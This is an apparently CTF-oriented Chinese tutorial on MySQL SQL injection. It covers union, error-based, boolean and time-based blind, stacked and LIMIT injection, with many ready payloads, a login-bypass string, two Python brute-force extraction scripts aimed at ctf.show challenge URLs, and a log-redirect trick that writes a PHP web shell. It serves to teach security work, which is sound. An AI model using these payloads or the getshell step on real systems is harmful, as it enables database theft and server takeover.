> 这里要提醒一下，在数据库中的测试和在web页面的测试所用的语句是不一样的

数据库测试语句

```mysql
select * from users where id = 1 order by 4;
select * from users where id = 1 order by 3;
select username from users where id = 1 order by 1;
select username from users where id = 1 order by 2;
```


- 判断回显位

```
-1' union select 1,2,3--+
```

这里的话就是结合的虚拟临时表的内容，下面会讲到

数据库查询语句

```mysql
select * from users where id = 1 union select 1,2,3;
```



- 查询数据库名

```
-1' union select 1,2,(select group_concat(schema_name)from information_schema.schemata)--+
```

GROUP_CONCAT()用于将分组内的值连接成一个以逗号（或其他分隔符）分隔的字符串,所以这也是为什么我们返回的多个数据库名，表名，列名都是以逗号去分开的原因

`union`后的数字1和2只用于凑列数，无任何实际意义（可以换为其他内容）

数据库查询语句

```mysql
select * from users where id = 1 union select 1,2,convert((select group_concat(schema_name)from information_schema.schemata)using utf8mb4);
```



哎？为啥这里需要用到一个convert(using utf8mb4)么？其实是因为mysql中union要求两个 SELECT 返回的列类型必须兼容，并且字符列的 **collation** 必须可以统一，不然会报错，但是在web应用中往往会有对collation进行自动处理，所以这也是为什么需要注意在mysql中测试和页面测试的不同

很快，在10月份的?CTF上就遇到一个没自动处理的sql注入问题，这时候就需要bypass Collation了



下面的就不继续说了，语句都是一样的

- 查询表名

```
-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema = database())--+
```

- 查询表中列名

```
-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name = '表名')--+
```

- 查询列中数据

```
-1' union select 1,2,列名 from 数据库名.表名--+
```

**MySQL >= 5.0的情况下就是我们常规的union联合注入了，MySQL < 5.0没有information_schema**，联合注入打不通

所以简单来说步骤就是:

```
判断字段数->判断回显位置->爆数据库->爆表名->爆字段名(列名)->爆数据
```

到这的话我们顺便提一下这个联合注入的一个小技巧，也就是插入临时表

### 插入临时表

什么意思呢?在使用联合注入时，如果我们查询的数据不存在，那么就会生成一个内容为null的虚拟临时数据，比如我们的payload是

```
union select 'wantheflag','123123'
```



可以看到这里生成了一个临时的username和password，所以我们在联合注入下可以利用这一技巧去设置一个username和password然后可以利用这个临时数据去进行登录，例如

```
查询语句
select username,password from users where username='$_GET[username]' and password='$_GET[pass]'
payload
username=users' union select 'admin','123123'--+&password=123123
```

#### 特:万能密码

就是用永真语句进行登录，最常用的就是

```
' or '1'='1'--+
```

1=1恒为真。由于OR运算符的两侧只要有一侧为真，整个表达式就为真，因此整个查询条件就恒为真。

## 2.报错注入

通过**特殊函数**的错误使用使其参数被页面输出，但是前提是服务器开启报错信息返回，也就是发生错误时会返回报错信息

报错注入（Error-based）的利用条件是：

1. SQL 操作/函数 报错
2. 构造会出现执行错误的 SQL 查询语句，将需要获取的信息（如版本、数据库名）放到会在错误信息输出的位置
3. 网站回显数据库执行的报错信息，得到数据库信息

常见的利用函数有updatexml()、extractvalue()、floor()+rand()等，参考[SQL注入总结](https://xz.aliyun.com/t/2869#toc-25)

```mysql
1.floor()和rand()
union select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a       /*利用错误信息得到当前数据库名*/
2.extractvalue()
id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
3.updatexml()
id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))
4.geometrycollection()
id=1 and geometrycollection((select * from(select * from(select user())a)b))
5.multipoint()
id=1 and multipoint((select * from(select * from(select user())a)b))
6.polygon()
id=1 and polygon((select * from(select * from(select user())a)b))
7.multipolygon()
id=1 and multipolygon((select * from(select * from(select user())a)b))
8.linestring()
id=1 and linestring((select * from(select * from(select user())a)b)
9.multilinestring()
id=1 and multilinestring((select * from(select * from(select user())a)b))
10.exp()
id=1 and exp(~(select * from(select user())a))
```

### XPATH 报错

updatexml和extractvalue两种

利用条件：Mysql >= 5.1

#### updatexml()报错注入

**Updatexml()函数:**

- 主要用于更新XML类型的数据。
- 适用于需要修改XML数据中的节点值或插入新节点的场景。
- 在数据库维护和数据更新方面有着广泛的应用。

语法

```
updatexml('XML_document','Xpath_string','New_value')
```

XML_document：String格式，为XML文档对象的名称

XPath_string ：Xpath格式的字符串 

new_value：String格式，替换查找到的符合条件的数据

注入过程

```
查询数据库：id=1' and (select updatexml(1,concat(0x7e,(database()),0x7e),1))#

查询表名:id=1' and (select updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1))#

查询列/字段名:id=1' and (select updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='表名'),0x7e),1))#

查询数据：id=1' and (select updatexml(1,concat(0x7e,(select group_concat(列名) from 数据库名.表名),0x7e),1))#
```

测试结果



当然也可以使用limit，利用limit进行分页，作用是展示第几条数据，因为xpath报错返回的信息长度是有限的

```mysql
mysql> select * from users where id = 1 and convert((select updatexml(1,concat(0x7e,(select group_concat(schema_name)from information_schema.schemata),0x7e),1))using utf8mb4);
ERROR 1105 (HY000): XPATH syntax error: '~information_schema,mysql,mytest'
```

最多会返回32个字符左右

我们拿第一个爆数据库的语句解释一下payload

```
1' and (select updatexml(1,concat(0x7e,(select database()),0x7e),1))#
```

`concat(0x7e, (select database()), 0x7e)`：

- `concat()` 是一个字符串拼接函数，它会将传入的参数连接成一个完整的字符串。
- `0x7e` 是十六进制的 `~`，这里的作用是将返回的数据用 `~` 包裹，便于分辨。
- `(select database())` 是一个子查询，用于获取当前数据库的名称。
- 整体的作用是生成一个看起来像 `~database_name~` 的字符串。

最后的查询结果

- `updatexml()` 函数的第一个参数 `1` 和第三个参数 `1` 并没有实际意义，因为它们并非合法的 XML 文档或路径。
- 第二个参数 `concat(0x7e, (select database()), 0x7e)` 会生成一个类似 `~database_name~` 的字符串

但是这个语句会报错，因为 `updatexml()` 的第一个参数不是有效的 XML 文档，所以 MySQL 会抛出一个错误，这个错误信息会包含 `concat` 函数生成的字符串，即当前数据库的名称。

```mysql
mysql> select * from users where id = 1 and convert((select updatexml(1,concat(0x7e,(select database()),0x7e),1))using utf8mb4);
ERROR 1105 (HY000): XPATH syntax error: '~mytest~'
```

#### extractvalue()报错注入

其实和updatexml函数没什么区别，但是

**Extractvalue()函数：**

- 主要用于从XML数据中查询并返回包含指定XPath字符串的字符串。
- 适用于从XML数据中提取特定信息的场景。
- 在数据查询和数据解析方面发挥着重要作用。

语法：

```
extractvalue(xml_document,Xpath_string);
```

第一个参数：xml_document是string格式，为xml文档对象的名称

第二个参数：Xpath_string是xpath格式的字符串

作用：从目标xml中返回包含所查询值的字符串

payload

```
and extractvalue(1,(concat(0x7e,(payload))))
```

注入过程

```
爆数据库名:id=1' and (select extractvalue(1,concat(0x7e,(database()))))#

爆表名:id=1'and (select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))))#

爆字段名:id=1' and (select extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='表名'))))#

爆数据:id=1' and(select extractvalue(1,concat(0x7e,(select group_concat(字段名) from 数据库名.表名)))#
```

extractvalue()能查询字符串的最大长度为32，就是说如果结果可能会超过32，就需要用substring()等函数或者limit语句去截取，这个函数在盲注中有介绍，可以跳转一下

### group by报错

#### floor()报错注入

floor()函数

- **功能**：向下取整，返回小于或等于指定数值的最大整数。
- **特点**：无论是正数还是负数，`FLOOR()` 函数都会向“数轴下方”取整。
- **适用场景**：用于数据处理，比如去掉小数部分，或对计算结果进行取整处理。

rand() 是一个用于生成 **随机数** 的函数

- **功能**：生成一个 **0 到 1 之间的随机浮点数**（范围：[0, 1)），结果包含 0，但不包含 1。

floor(rand(0)*2) 产生的随机数的**前六位** 一定是 “011011”

然后我们看看报错注入的payload

```mysql
1、select count(*) from information_schema.tables group by concat(database(),floor(rand(0)*2));
2、select count(*) from information_schema.tables group by concat(database(),floor(rand()*2));
```



可以看到这里的库名是被爆出来了，但是为什么第二种payload有时候会爆不出来呢

首先我们要知道这里floor结合group by报错注入的原理和过程

这里的话通过concat函数将数据库名和floor函数的结果相连，这里的结果就是

```
database()+'0'和database()+'1'两种结果
```

因为上面我们知道，floor(rand(0)*2) 产生的随机数的**前六位** 一定是 “011011”

所以前六个结果一定是

```
'database()+'0''
'database()+'1''
'database()+'1''
'database()+'0''
'database()+'1''
'database()+'1''
```

报错注入的原理：

我看到一个师傅的解释挺好的

https://www.cnblogs.com/02SWD/p/CTF-sql-group_by.html



其实就是通过虚拟表的创建和插入去造成报错返回数据

注入payload

```mysql
爆库名：
id=1'union select count(*),2,concat('~',(select database()),'~',floor(rand()*2))as a from information_schema.tables group by a#
爆表名：
id=1' union select count(*),2,concat('~',(select group_concat(table_name)from information_schema.tables where table_schema=database()),'~',floor(rand()*2))as a from information_schema.tables group by a#
爆列名：
id=1' union select count(*),2,concat('~',(select group_concat(column_name)from information_schema.columns where table_name='表名'),'~',floor(rand()*2))as a from information_schema.tables group by a#
爆字段：
id=1' union select count(*),2,concat('~',(select group_concat(列名)from 数据库名.表名),'~',floor(rand()*2))as a from information_schema.tables group by a#
```

使用floor报错注入，需要确保查询的表必须大于三条数据

除了floor函数，其他的几个函数也能用

```
ceil()-向上取整函数
ceil(x) 返回不小于 x 的最小整数，即向上取整。
例如，ceil(3.14) 返回 4。

round() - 四舍五入函数
round(x) 返回最接近 x 的整数，如果有两个整数与 x 距离相等，则返回偶数的整数。
例如，round(3.6) 返回 4，round(3.5) 返回 4，round(3.4) 返回 3。
```

payload

```
爆库名：
id=1'union select count(*),2,concat('~',(select database()),'~',ceil(rand()*2))as a from information_schema.tables group by a#
爆库名：
id=1'union select count(*),2,concat('~',(select database()),'~',round(rand()*2))as a from information_schema.tables group by a#
```


### 数溢出报错

#### exp()报错注入

`EXP()` 是一个数学函数，它用来计算 **自然指数函数（e^x）** 的值

- EXP(x) = e^x



那这个注入的原理是什么呢？

SQL语句中，函数成功执行后返回0，将0按位取反后会得到**18446744073709551615**（最大的无符号值），如果对这个值进行数值表达式运算则会导致溢出错误。

payload

```
select exp(~(payload))
```

注入过程

```
爆数据库
select exp(~(select * from (database())x))#
爆表名：
select exp(~(select * from(select group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1)x))#
爆列名：
select exp(~(select * from(select group_concat(column_name) from information_schema.columns where table_name='users' limit 0,1)x))#
爆字段：
select exp(~(select * from(select 列名 from 数据库名.表名)))#
```

但是数溢出报错只有在mysql>5.5以上的版本才会产生溢出错误信息，以下的版本对于溢出不会发送任何信息

## 3.布尔盲注

进行布尔盲注的条件是页面会有回显作为语句执行是否成功的标志，一般我们可以先用永真条件`or 1=1`与永假条件`and 1=2`的返回内容是否存在差异进行判断是否可以进行布尔盲注

什么情况下考虑使用布尔盲注？

- 该输入框存在注入点。
- 该页面或请求不会回显注入语句执行结果，故无法使用UNION注入。

- 对数据库报错进行了处理，无论用户怎么输入都不会显示报错信息，故无法使用报错注入。

基本函数

- ascii()函数:`ASCII()` 函数用于返回字符串中第一个字符的 ASCII 值。如果字符串为空，返回值为 0。

### ASCII替换函数

ord()函数：ORD() 函数返回字符串第一个字符的ASCII 值，如果该字符是一个多字节（即一个或多个字节的序列），则MySQL函数将返回最左边字符的代码。

当然如果两个ascii函数被禁用了的话也可以直接不用这些转ASCII函数，而是直接进行字符集匹配

### substr替换函数

substr()函数:SUBSTR()函数（在某些数据库中也称为 SUBSTRING()）用于从一个字符串中提取子字符串。

### left()函数

在 MySQL 中，`LEFT()` 函数用于从字符串的左侧提取指定数量的字符

语法

```
LEFT(string, length)
```

- **`string`**：要提取字符的字符串。
- **`length`**：要提取的字符数量。

### right()函数

在 MySQL 中，`RIGHT()` 函数用于从字符串的右侧提取指定数量的字符。

```
RIGHT(string, length)
```

- **`string`**：要提取字符的字符串。
- **`length`**：要提取的字符数量。

### mid()函数

在 MySQL 中，`MID()` 函数用于从字符串的指定位置开始提取指定数量的字符。

语法

```
MID(string, start, length)
```

- **`string`**：要提取字符的字符串。
- **`start`**：开始提取的位置（从 1 开始计数）。
- **`length`**：要提取的字符数量（可选，如果省略，则提取从 `start` 到字符串末尾的所有字符）。

### substring()函数

在 MySQL 中，`SUBSTRING()` 函数用于从字符串的指定位置开始提取指定数量的字符。

```
SUBSTRING(string, start, length)
```

- **`string`**：要提取字符的字符串。
- **`start`**：开始提取的位置（从 1 开始计数）。
- **`length`**：要提取的字符数量（可选，如果省略，则提取从 `start` 到字符串末尾的所有字符）。

​	lpad（str，len，padstr）

​	rpad（str，len，padstr）在str的左（右）两边填充给定的padstr到指定的长度len，返回填充的结果

### 手工注入

**1. 判断是否存在注入以及注入类型**

**2. 构造sql语句，利用length()函数得到数据库长度：**1 and(length(database()))>x根据回显是否正常来判断数据库长度

**3. 猜测数据库名字，利用ascii()函数和substr()函数依次得到数据库的名字，例如：**1 and (ascii(substr(database(),y,1)))>x，根据每个字母的ascii值找出数据库的第y个字母

**4. 判断表的数量,例如:**1 and (select count(table_name) from information_schema.tables where table_schema=database())>x来判断表的数量

**5. 猜测表名:**1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit x,1),y,1))>x 来猜测第x张表的第y个字母

**6. 猜测字段数量:**1 and (select count(column_name) from information_schema.columns where table_name='表名')=1

**7. 猜测数据内容:**1 and ascii(substr((select * from 数据库.表名 where id=1),1,1))>x

手工盲注比较繁琐，一般都会用脚本去注入或者用工具sqlmap

布尔盲注的脚本我贴一个最基础的

```python
import requests
#GET请求的布尔盲注
    #爆破数据库的长度
def brute_force_database_length(url, headers):
    databaselen = 0
    for l in range(1,50):
        databaselen_payload = f"?id=1' and length(database())={l}--+"
        response = requests.get(url + databaselen_payload, headers=headers)  
        if 'admin'in response.text:#判断是否存在注入
            databaselen = l
            break
    print('数据库名字长度为:  '+ str(databaselen))
    return databaselen

    #爆破数据库的名字
def brute_force_database_name(url, headers, databaselen):
    databasename = ''   
    sign = false
    for l in range(1,100):#用来爆破数据库的字符
        for i in range(32,128):
            databasechar_payload = f"?id=1' and ascii(substr(database(),{l},1))='{i}'--+"
            response = requests.get(url + databasechar_payload, headers=headers) 
            if 'admin'in response.text:#判断是否存在注入
                databasename += chr(i)
                print(databasename)
                break
    print('数据库名字为:  '+ str(databasename))
    return databasename
 #爆破表的个数
def brute_force_table_count(url, headers, databasename):
    tablecount = 0
    for l in range(1,50):#用来爆破表的个数
        tablecount_payload = f"?id=1' and (select count(table_name) from information_schema.tables where table_schema='{databasename}') ={l}--+"
        response = requests.get(url + tablecount_payload, headers=headers) 
        if 'admin'in response.text:#判断是否存在注入
            tablecount = l
            break
    print(f'表的个数为: {tablecount}')
    return tablecount
#爆破表的名字
def brute_force_table_name(url, headers, tablecount,databasename):
    tables=[]
    for t in range(0,tablecount):
        table_name = ''
        tablelen = 0
        for l in range(1, 50):
            tablelen_payload = f"?id=1' and length((select table_name from information_schema.tables where table_schema = '{databasename}' limit {t+0}, 1))={l}--+"
            response = requests.get(url + tablelen_payload, headers=headers)
            if 'admin'in response.text:
                tablelen = l
                break
        print(f'表{t+1}的长度为: {tablelen}')
        for m in range(1, tablelen+1):
            for i in range(32, 128):
                table_name_payload = f"?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema = '{databasename}' limit {t+0}, 1),{m},1))='{i}'--+"
                response = requests.get(url + table_name_payload, headers=headers)
                if 'admin'in response.text:
                    table_name += chr(i)
                    print(table_name)
                    break
        print(f'表{t+1}的名字为: {table_name}')
        tables.append(table_name)
    return tables
'''
#爆破字段的个数
def brute_force_column_count(url, headers, tables):
    column_count = 0
    for l in range(1, 50):
        column_countpayload = f"?id=1' and (select count(column_name) from information_schema.columns where table_name='{tables}')={l}--+"
        response = requests.get(url + column_countpayload, headers=headers)
        if 'admin'in response.text:
            column_count = l
            break
    print(f'表 {tables} 有 {column_count} 字段.') 
    return column_count

#查询表中字段
def brute_force_column_name(url, headers,tables, column_count):
    columns = []
    for c in range(column_count):
        column_name = ''
        for l in range(1, 50):
            column_count_payload = f"?id=1' and length((SELECT COLUMN_NAME FROM information_schema.columns WHERE table_name='{tables}' LIMIT {c},1))={l}--+"
            response = requests.get(url + column_count_payload, headers=headers)
            if 'admin'in response.text:
                column_count = l
                print(f'表 {tables} 中字段 {c+1} 的个数为: {column_count}')
        for m in range(1, column_count+1):
            for i in range(32, 128):
                column_name_payload = f"?id=1' and ascii(SUBSTR((SELECT COLUMN_NAME FROM information_schema.columns WHERE table_name='{tables}' LIMIT {c},1),{m},1))='{i}'--+"
                response = requests.get(url + column_name_payload, headers=headers)
                if 'admin'in response.text:
                    column_name += chr(i)
                    print(column_name)
                    break
        print(f'表 {tables}  中字段 {c+1} 的名字为: {column_name}')
        columns.append(column_name)
    return columns
'''
#查询表中数据
def brute_force_table_data(url, headers,tables):
    data = ''
    for c in range(0,100):#用来爆破表中的数据
        for i in range(32,128):
            data_payload = f"?id=1' and ascii(substr((select password from {tables} where username='flag'),{c+0},1))='{i}'--+"
            response = requests.get(url + data_payload, headers=headers) 
            if 'admin'in response.text:#判断是否存在注入
                data += chr(i)
                print(data)
                break
    print('flag为:  '+ str(data))
    return data
if __name__ == "__main__":
    url = 'http://598dad09-8ca9-4769-9d38-8f62ee4186c7.challenge.ctf.show/api/v4.php'
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36'
    }
    databaselen = brute_force_database_length(url, headers)
    databasename = brute_force_database_name(url, headers, databaselen)
    tablecount = brute_force_table_count(url, headers, databasename)
    tables = brute_force_table_name(url, headers, tablecount, databasename)
    for table in tables:
        #column_count = brute_force_column_count(url, headers, table)   
        #columns = brute_force_column_name(url, headers,table, column_count)
        data = brute_force_table_data(url, headers,table)
```

#### 姿势一:case ... when ... then ... else ... end

随便给个payload

```
case(ascii(substr(database()from(1)for(1))))when(102)then(1)else(0)end
```

- 这是一个条件表达式。它根据某个条件的值返回不同的结果。
- 具体来说，`case ascii(substr(database() from 1 for 1))` 这部分将检查数据库名称第一个字符的 ASCII 值。
- 如果这个值是 `102`（对应字符 'f'），则返回 `1`；否则返回 `0`。

## 4.时间盲注

界面返回值只有一种,true 无论输入任何值 返回情况都会按正常的来处理。加入特定的时间函数，通过查看web页面返回的时间差来判断注入的语句是否正确。

小tips:**在真实的渗透测试过程中，我们有时候不清楚整个表的情况的话，可以用这样的方式进行刺探，比如设置成 sleep(1) 看最后多少秒有结果，推断表的行数就是多少**)



这里可以看到延时了8s也就是4个2s，可以看到我们的行数也是4，但是不知道为啥没出结果是我没想到的

时间盲注与布尔盲注类似。时间型盲注就是利用时间函数的延迟特性来判断注入语句是否执行成功。

什么情况下考虑使用时间盲注？

	1. 无法确定参数的传入类型。整型，加单引号，加双引号返回结果都一样
	1. 不会回显注入语句执行结果，故无法使用UNION注入
	1. 不会显示报错信息，故无法使用报错注入
	1. 符合盲注的特征，但不属于布尔型盲注

常用函数

sleep(n)：将程序挂起一段时间, n为n秒。

if(expr1,expr2,expr3):判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句。

使用sleep()函数和if()函数：`and (if(ascii(substr(database(),1,1))>100,sleep(10),null)) #`   如果返回正确则 页面会停顿10秒，返回错误则会立马返回。只有指定条件的记录存在时才会停止指定的秒数。

**手工注入:**

**1. 利用sleep()函数和if()函数判断数据库长度：**1 and if(length(database())=x,sleep(y),1)--页面y秒后才回应，说明数据库名称长度为x

**2. 猜测数据库名称:例如:**1 and if(ascii(substr(database(),1,1))=115,sleep(3),1) adcii(s)=115

**3. 猜测表中数:**1 and if((select count(table_name) from information_schema.tables where table_schema=database())=x,sleep(y),1) 页面y秒后反应，说明有x张表

**4. 猜测表:**1 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=110,sleep(3),1)  ascii(n)=110

**5. 猜测字段数:**1 and if((select count(column_name) from information_schema.columns where table_name='flag')=1,sleep(3),1)  3秒后响应，只有一个字段

**6. 猜测字段名:**1 and if(ascii(substr((select column_name from information_schema.columns where table_name='表名'),1,1))=102,sleep(3),1) 

### 常规盲注

#### sleep函数

sleep()函数 : `sleep()` 函数用于使程序暂停或延迟一段时间

#### benchmark函数

benchmark()函数 : `BENCHMARK(loop_count,expr)`函数用来测试 SQL 语句或者函数的执行时间，第一个参数表示执行的次数，第二个参数表示要执行的操作。通常使用使用 MD5、SHA1 等函数，执行次数 100000。

如benchmark(10000000,md5(‘yu22x’));会计算10000000次md5(‘yu22x’)，因为次数很多所以就会产生延时，但这种方法对服务器会对产生很大的负荷，容易把服务器跑崩，如果崩掉的话就把time.sleep的值改大点，除了md5还可以使用其他函数，比如：

```plain
benchmark(1000000,encode("hello","good"));
benchmark(1e7,sha1('kradress'));
```

**手工盲注特别繁琐，碰到这类题目要会用脚本或工具sqlmap**

贴个时间盲注的脚本

```python
import requests
import datetime
import time
def brute_force_table_data(url):
    data = ''
    for c in range(0,100):#用来爆破表中的数据
        for i in range(32,128):
            payload = f"?id=1' and if(ascii(substr((select password from ctfshow_user5 where username='flag'),{c+0},1))='{i}',sleep(5),0)--+"
            time1 = datetime.datetime.now()
            r = requests.get(url + payload)
            time2 = datetime.datetime.now()
            sec = (time2 - time1).seconds
            if sec >= 5:#超时时间为5秒
                data += chr(i)
                print(data)
                break
    print('flag为:  '+ str(data))
    return data
if __name__ == "__main__":
    url = 'http://4a879471-5db2-4202-876f-d5c67c22bc4f.challenge.ctf.show/api/v5.php'
    flag = brute_force_table_data(url)
```

那如果这两个函数都被禁用了的话呢?我们又该如何去进行时间盲注

### 笛卡尔积盲注

##### 什么是笛卡尔积

**笛卡尔积**（Cartesian Product）是集合论和关系代数中的一个基本概念，它指的是**两个集合（或表）中所有可能的有序对的组合**。

假设有两个集合 *A* 和 B：

```
A={a1,a2,…,am}
B={b1,b2,…,bn}
```

那么，*A* 和 *B* 的笛卡尔积 A×B定义为：

```
A×B={(ai,bj)∣ai∈A,bj∈B}
```

即 A*×*B 包含所有 A 中的元素与 B 中的元素的组合。

在数据库中看，笛卡尔积指的是**两个表中的所有行的组合**。假设有两个表 A 和 B：

- 表 A 有 m行，表 B 有 n 行。
- 表 A有 p列，表 B有 q列。

那么，表 A和表 B的笛卡尔积结果是一个新表，包含：

- **行数**：m×n行。
- **列数**：p+q列（表 A的所有列 + 表 B的所有列）。

其实说白了就是两个表中每一行跟另一个表所有行的不同组合的结果

例如

- 表A 有 2 行，列名为id和 name

  ```
  id | name
  ---|------
  1  | Alice
  2  | Bob
  ```

- 表B 有 3 行，列名为 city和country

  ```
  city    | country
  --------|---------
  Beijing | China
  New York| USA
  Tokyo   | Japan
  ```

那么此时他们的笛卡尔积结果是什么呢？

```
id | name  | city     | country
---|-------|----------|--------
1  | Alice | Beijing  | China
1  | Alice | New York | USA
1  | Alice | Tokyo    | Japan
2  | Bob   | Beijing  | China
2  | Bob   | New York | USA
2  | Bob   | Tokyo    | Japan
```

笛卡尔积为什么能打盲注呢？

因为笛卡尔积的算法是一种乘法，在查询数据很多的表的时候结果会呈现指数倍的增长，导致运算量很大，从而在查询的时候造成延时。**实现的方法就是将表查询不断的叠加，使之以指数倍运算量的速度增长，不断增加系统执行 sql 语句的负荷，直到可以达到我们想要的时间延迟**，但是由于我们真实的ctf题目或者真实环境中的表和字段等信息是不一样的，所以我们通常都会利用mysql系统自带的表去进行笛卡尔积盲注

payload

```mysql
SELECT count(*) FROM information_schema.columns A,information_schema.columns B,information_schema.columns C;
```

根据数据库查询的特点，这句话的意思就是将 A B C 三个表进行笛卡尔积（全排列），并输出最终的行数，我们来实验一下



因为如果是3个表的话我的负荷太大了跑不出来会崩掉，所以只能写两个表



可以看到，和我们的分析是一样的，但是从时间来看，这种时间差是运算量指数级增加的结果。我们可以利用这其中的耗时去做到一个时间盲注的效果

那我们常规的payload就是

```
1' and if(length(database())>1,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B),1)#
```

当if的条件满足时就会执行笛卡尔积的查询结果，就会造成延时，但是具体的延时时间还要具体环境具体分析，对环境的调试也是重要的一点

### RLIKE注入

先讲讲RLIKE函数

#### RLIKE函数

在 MySQL 中，`RLIKE` 是用于**正则表达式匹配**的操作符。它允许你在查询中使用正则表达式来匹配字符串。

基础语法

```mysql
expression RLIKE pattern
```

- `expression`：要匹配的字符串列。
- `pattern`：正则表达式模式，用于匹配列中的字符串。

rlike盲注还需要的函数就是rpad()函数和repeat()函数

#### rpad()函数

在 MySQL 中，`RPAD` 是一个字符串函数，用于**在字符串的右侧填充指定的字符，直到字符串达到指定的长度**。

```
RPAD(str,len,padstr)
```

- `str`：原始字符串。
- `len`：填充后的目标长度。
- `padstr`：用于填充的字符（可以是单个字符或多个字符）

**返回值**

- 如果 `str` 的长度已经大于或等于 `len`，则 `RPAD` 会直接返回 `str` 的前 `len` 个字符。
- 如果 `str` 的长度小于 `len`，则 `RPAD` 会在 `str` 的右侧填充 `padstr`，直到字符串的长度达到 `len`。



#### REPEAT()函数

在 MySQL 中，`REPEAT()` 是一个字符串函数，用于**将指定的字符串重复指定的次数**。

```
REPEAT(str,count)
```

- `str`：需要重复的字符串。
- `count`：重复的次数（必须是一个非负整数）。

**2. 返回值**

- 返回一个由 `str` 重复 `count` 次组成的新字符串。
- 如果 `count` 为 `0`，则返回空字符串 `''`。
- 如果 `count` 为负数，则返回 `NULL`。



那这里的RLIKE盲注的思路是什么呢？

通过`rpad`或`repeat`构造长字符串，加以计算量大的pattern，然后利用正则匹配机制的贪婪匹配去做正则回溯，所以会造成延时

不知道为什么本地测的时候总是会超时报错



### GET_LOCK盲注

GET_LOCK()函数:`GET_LOCK()` 是一个用于实现分布式锁的函数。它通过在数据库中创建一个命名锁，以确保同一时刻只有一个会话能够持有该锁。

基础语法

```mysql
GET_LOCK(str, timeout)
```

`str`：指定锁的名称，类型为字符串。锁的名称是区分大小写的。

`timeout`：指定等待获取锁的时间（以秒为单位）。如果设置为 0，则立即返回。如果设置为负数，则表示无限期等待。

**返回值**：

- 返回 1：表示成功获取锁。
- 返回 0：表示在超时时间内未能获取到锁。
- 返回 NULL：表示获取锁时出错（例如，由于权限问题）。

利用条件是，开启两个 MySQL 数据库连接，先后在两个连接中使用 GET_LOCK 函数获取相同名字的锁，后面使用 GET_LOCK 函数的连接无法得到锁，等待 `timeout`秒后执行其它操作。

## 5.堆叠注入

堆叠注入就是 **通过添加一个新的查询或者终止查询( ; )，可以达到 修改数据 和 调用存储过程 的目的**

分号`;`为MYSQL语句的结束符，若在支持多语句执行的情况下，可利用此方法进行sql注入。比如有函数mysqli_multi_query()，它支持执行一个或多个针对数据库的查询，查询语句使用分号隔开。如果正常的语句是：

```plain
select 1;
```

若支持堆叠注入，我们就可以在后面添加自己的语句执行命令，如：

```plain
select 1;show tables--+
```

但通常多语句执行时，若前条语句已返回数据，则之后的语句返回的数据通常无法返回前端页面，可考虑使用`RENAME`关键字，将想要的数据列名/表名更改成返回数据的SQL语句所定义的表/列名

还有一种姿势就是利用handler函数

### handler函数

在 MySQL 中，`HANDLER` 是一个用于操作特定存储引擎（如 MyISAM 和 InnoDB）表的命令，用于直接访问表的数据而不通过 SQL 层。

`HANDLER` 语句主要用于以下操作：

```
1.打开表
handler table_name open
2.读取第一行
handler table_name read first或者(next)
3.关闭表
handler table_name close
```

堆叠注入因为能更好更灵活的处理语句，所以我们也不止可以用来进行sql查询，也可以进行一些比较骚的姿势

### 开启日志记录getshell

这个其实很简单，就是通过执行sql语句开启日志记录，然后我们执行查询语句的时候就会记录在日志文件中，我们尝试一下

```
?id=1';set global general_log = "ON";set global general_log_file='/var/www/html/shell.php';--+
```

这里的话指定日志文件的路径是一个shell.php文件，那我们进行getshell

```
?id=1';select <?php phpinfo();?>
```

此时日志文件就记录了该代码，由于是php文件所以会解析里面的代码，从而进行getshell

## 6.limit注入

其实这个注入我接触的时间很晚，也是因为做到题目才知道存在这个注入方式的，参考文章：

[SQL Injections in MySQL LIMIT clause](https://lightless.me/archives/111.html)

p牛的文章：[[转载]Mysql下Limit注入方法](https://www.leavesongs.com/PENETRATION/sql-injections-in-mysql-limit-clause.html)

其实这个方法比较老了，限制版本也挺老的，仅适用于 **5.0.0< MySQL <5.6.6**的版本中，在limit语句后面的进行的注入

假设我们此时的查询语句是

```
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT injection_point
```

可以看到上面的语句中包含了order by语句，在 MySQL 中，`UNION` 语句和 `ORDER BY` 子句的使用顺序是有严格规定的。具体来说，`UNION` 语句不能在 `ORDER BY` 的后面



至于为什么呢？

- union用于将多个查询语句的结果集合成一个结果集，它的执行顺序是先执行每个执行语句，生成各自的结果集，然后再将这些结果集合并为一个结果集
- order by 用于将结果集进行排列，它只能对最终的结果集进行排列而不是对每个查询语句的结果集单独排列，如果 `ORDER BY` 出现在某个 `SELECT` 语句中，它只会对该 `SELECT` 语句的结果集进行排序，而不是对整个 `UNION` 的结果集排序。

其实这也是限制union联合注入的一种方法

然后我们看看mysq5官方手册中定义的select语句

```mysql
SELECT 
    [ALL | DISTINCT | DISTINCTROW ] 
      [HIGH_PRIORITY] 
      [STRAIGHT_JOIN] 
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT] 
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS] 
    select_expr [, select_expr ...] 
    [FROM table_references 
    [WHERE where_condition] 
    [GROUP BY {col_name | expr | position} 
      [ASC | DESC], ... [WITH ROLLUP]] 
    [HAVING where_condition] 
    [ORDER BY {col_name | expr | position} 
      [ASC | DESC], ...] 
    [LIMIT {[offset,] row_count | row_count OFFSET offset}] 
    [PROCEDURE procedure_name(argument_list)] 
    [INTO OUTFILE 'file_name' export_options 
      | INTO DUMPFILE 'file_name' 
      | INTO var_name [, var_name]] 
